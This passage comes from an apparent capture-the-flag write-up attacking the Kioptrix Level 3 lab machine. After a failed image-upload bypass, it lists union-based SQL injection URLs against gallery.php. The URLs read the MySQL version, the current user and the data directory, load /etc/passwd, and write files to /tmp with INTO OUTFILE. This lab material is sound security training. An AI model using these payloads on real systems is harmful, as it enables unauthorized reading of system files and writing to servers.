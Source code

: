 5. The `GIF89a?` way of adding it to the beginning of the code (and leaving the file extension as .php) does not work here (very likely because the file extension check is done at the `Content-Type` parameter only), and results in the same result in Case 1.
* Without being able to find a way to get a shell from the admin panel, I went back to the SQL injection vulnerability to look for a way to do so.
* First, I tried to figure out what we could do:
1. Getting SQL database version `5.0.51a-3ubuntu5.4`: `/gallery.php?id=null+and+1=2+union+select+1,@@version,3,4,5,6+from+gallarific_users--`
2. Finding out what that the current user was `root`: `/gallery.php?id=null+and+1=2+union+select+1,user(),3,4,5,6+from+gallarific_users--`
3. Getting the current database directory location, which is `/var/lib/mysql/`:`/gallery.php?id=null+and+1=2+union+select+1,@@datadir,3,4,5,6+from+gallarific_users--`
4. Loading the `/etc/passwd` file contents: `/gallery.php?id=null+and+1=2+union+select+1,load_file('/etc/passwd'),null,4,5,6+from+gallarific_users--`
![](/screenshots/kioptrix-level-3/httpGalleryGallerySQLInjectEtcPasswdFile.jpg)
* We are able to confirm that `loneferret` has an account on the server.
* Note: We see `null` instead of `3` after `load_file`, so as not to print the number as part of our output. 
* Alternative (slight modification at start of SQL string): `/gallery.php?id=null+union+all+select+1,load_file('/etc/passwd'),null,4,5,6+from+gallarific_users--`
5. Write a file to `/tmp` directory: `/gallery.php?id=null+and+1=2+union+select+1,"This message is being written to /tmp/testFile.txt",3,4,5,6+INTO+OUTFILE+'/tmp/sampleWrite.txt'--`
* Note: There is no success message for a successful write. All we see is the `Empty gallery` message.
* We are able to view the file contents by using `load_file`. However, the problem encountered is that 5 other numerical values are written into the file as well: `1 This message is being written to /tmp/testFile.txt 3 4 5 6`.
* According to [this Exploit-DB page](https://www.exploit-db.com/papers/14635), it says that we should "replace the visible columns (i.e. numbers, in URL), with the word `null`, else it will be written into the file together with the next". In this case, the number `3` appeared when we printed `/etc/passwd` just now, so replacing it with `null` (no inverted commas) should technically work out, but instead of printing the number `3`, we see `\N` instead.